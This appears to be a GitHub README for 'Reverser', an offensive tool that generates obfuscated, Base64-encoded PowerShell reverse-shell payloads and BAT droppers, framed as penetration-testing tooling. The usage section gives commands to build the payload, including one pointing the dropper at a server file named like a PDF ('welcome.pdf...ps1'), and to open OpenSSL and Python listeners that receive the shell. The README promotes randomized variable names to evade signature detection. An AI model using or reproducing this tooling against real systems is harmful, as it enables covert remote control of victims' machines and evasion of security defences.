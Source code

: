 # Reverser: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reception
```

## Explain

The tool can generate two types of files, as chosen by the user:
A PS1 file with obfuscation and Base64 encoding containing a Reverse shell payload.
A legitimate BAT file that connects to a remote server to download the encoded PS1 file.

To create the BAT file, I developed a Python script that acts as a listener for the PS1 file download request. The server can operate with an encryption certificate and supports connections over both HTTP and HTTPS. This ensures that the initial connection between the BAT file and the server for downloading the payload is conducted over an encrypted channel.

The encoded PS1 file will be loaded into memory and establish a connection to another listener, which is set up using OpenSSL.

This way, we can ensure that the communication is encrypted end-to-end.

## Usage

Creating only a PS1 file (obfuscated and Based64 encoded):
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type ps1
```

Creating a BAT file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type bat -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/welcome.pdf.ine.co.il.ps1>
```
![image](https://github.com/user-attachments/assets/350a0105-c8a3-43f5-8e67-fddb34cf84f8)



Opening a listener with the OpenSSL server to receive the Reverse shell connection, 
and opening a listener with our server to handle the initial connection for downloading the PS1 file from the BAT file:
```bash
openssl s_server -accept <Your_PORT> -cert reception.pem -key reception.key -quiet
```
```bash
python3 listener.py -https_port <Your_Listener_Server_PORT>
```
![image](https://github.com/user-attachments/assets/b64a4bf1-e801-4a3e-8a0b-eaa1acbd9ff8)



Running the BAT file on the workstation, the file connects to our listener server over encrypted traffic:

![image](https://github.com/user-attachments/assets/049f45bf-f014-47d8-92ef-4514294745cf)




Receiving a response from the listener server and establishing a Reverse shell from the workstation:

![image](https://github.com/user-attachments/assets/dee0bf16-68f4-4059-9bdf-3d28e859e4c5)



The encrypted network traffic:

![image](https://github.com/user-attachments/assets/7fa8673f-0d4c-40e5-9449-ef746b6b203f)



And here is an example for those who want to create an encrypted listener server. 
The BAT file will connect to the server to download the PS1 file, and you can observe the connection to the server. 
The Reverse shell operation will then proceed in an encrypted manner:
![image](https://github.com/user-attachments/assets/77b78ae6-fc92-4fa9-93fa-ab43a9bc5b27)


# Update for the tool (25/08/2024):
1) A change was made in the BAT file
  The pyaload for downloading the PS1 file currently works with base64 compared to the previous version that was in clear texr:

  ![image](https://github.com/user-attachments/assets/6cebfce2-3ebe-44a5-969c-afca3c7024ce)

2) A bank of variables has been added to streamline the PS1 file signature change:

  ![image](https://github.com/user-attachments/assets/dce15c9a-68e3-4e36-a156-b6d3e1c2bc18)

  ![image](https://github.com/user-attachments/assets/afe01484-cdc3-4b97-849e-0fa59f30f74b)



